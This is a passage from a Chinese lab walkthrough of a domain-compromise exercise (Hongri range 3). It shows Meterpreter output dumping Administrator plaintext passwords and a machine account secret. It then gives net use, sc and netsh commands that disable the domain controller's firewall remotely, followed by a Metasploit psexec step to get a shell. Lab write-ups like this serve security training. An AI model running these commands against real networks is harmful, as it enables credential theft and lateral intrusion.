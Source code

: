```bash
                        92 25 2a d4 96 73 36 95 87 ec 34 e8 96 74 8f b6 0a ef 05 17 af 2e 5b 08 f7 6c 4e ad 9c 3e b0 e1 c8 2f 8f bd e3 b2 e7 81 17 09 96 f6 75 b5 0d   
                        c1 e1 61 07 d2 a8 99 e5 5f 7d e9 0c 76 a3 7e 51 e5 f1 d0 f0 da c5 0c 88 d0 1c 59 34 b9 3e 14 ab a1 7b 56 cd 9d 67 d3 19 c7 ad d9 b2 8d 72 e9   
                        2a c2 d0 be ff e7 e7 d2 60 85 9a 99 74 8c d5 0a b5 1c 58 31 28 de 15 51 36 58 8a da 3a db 61 5d be f9 d5 b8 a8 5c fe 19 06 f6 ac ac 26 6d 22   
                        80 e3 f4 f6 49 f8 92 78 9b a7 36 6d f7 c4 10 a3 8e 19 83 c5 84 ff 3f fc 9c 35 81 2d 35 42 8a 30 5a 7e ca ee 3f 50 0b c8 c6 68 a8 24 cc c0 52   
                        5e b8 37 30 b7

tspkg credentials
=================

Username       Domain   Password
--------       ------   --------
Administrator  TEST     zxcASDqw123!!
Administrator  WIN2008  123qwe!ASD

kerberos credentials
====================

Username       Domain    Password
--------       ------    --------
(null)         (null)    (null)
Administrator  TEST.ORG  zxcASDqw123!!
Administrator  WIN2008   123qwe!ASD
win2008$       TEST.ORG  94 1f 08 44 5a 0c 6d 4d dd a9 9d 09 7a d0 72 bb e9 81 69 7e 96 9f 78 74 f2 9e d3 f2 98 74 7a 2f 49 4e b7 18 01 e5 94 75 8f 57 11 44 d4 31 17  
                          92 25 2a d4 96 73 36 95 87 ec 34 e8 96 74 8f b6 0a ef 05 17 af 2e 5b 08 f7 6c 4e ad 9c 3e b0 e1 c8 2f 8f bd e3 b2 e7 81 17 09 96 f6 75 b5 0  
                         d c1 e1 61 07 d2 a8 99 e5 5f 7d e9 0c 76 a3 7e 51 e5 f1 d0 f0 da c5 0c 88 d0 1c 59 34 b9 3e 14 ab a1 7b 56 cd 9d 67 d3 19 c7 ad d9 b2 8d 72   
                         e9 2a c2 d0 be ff e7 e7 d2 60 85 9a 99 74 8c d5 0a b5 1c 58 31 28 de 15 51 36 58 8a da 3a db 61 5d be f9 d5 b8 a8 5c fe 19 06 f6 ac ac 26 6d  
                          22 80 e3 f4 f6 49 f8 92 78 9b a7 36 6d f7 c4 10 a3 8e 19 83 c5 84 ff 3f fc 9c 35 81 2d 35 42 8a 30 5a 7e ca ee 3f 50 0b c8 c6 68 a8 24 cc c  
                         0 52 5e b8 37 30 b7


meterpreter > 
```

接下来就是尝试登录域控
### 关闭域控防火墙并拿到session
这里先使用win7的session来关闭win2012域控机器的防火墙
```bash
net use \\192.168.93.10\ipc$ "zxcASDqw123!!" /user:"Administrator"

sc \\192.168.93.10 create unablefirewall binpath= "netsh advfirewall set allprofiles state off"

sc \\192.168.93.10 start unablefirewall
```
然后在使用msf的psexec模块拿shell
![](https://img.l1uyun.one/红日靶场3_image_18.png)
